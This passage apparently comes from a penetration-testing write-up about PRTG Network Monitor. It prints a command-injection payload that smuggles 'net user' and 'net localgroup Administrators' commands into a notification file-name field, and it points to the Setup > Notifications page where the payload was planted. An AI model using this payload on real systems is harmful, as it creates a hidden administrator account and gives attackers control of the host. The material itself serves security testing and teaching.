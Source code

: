 Payload to create a new user:

```
test.txt;net user pentest p3nT3st! /add; net localgroup Administrators pentest /add
```

Inside PRTG → `Setup > Notifications`, a new notification was created:

![](screenshots/prtg_notifications.png)  
![](screenshots/prtg_new_notification.png)
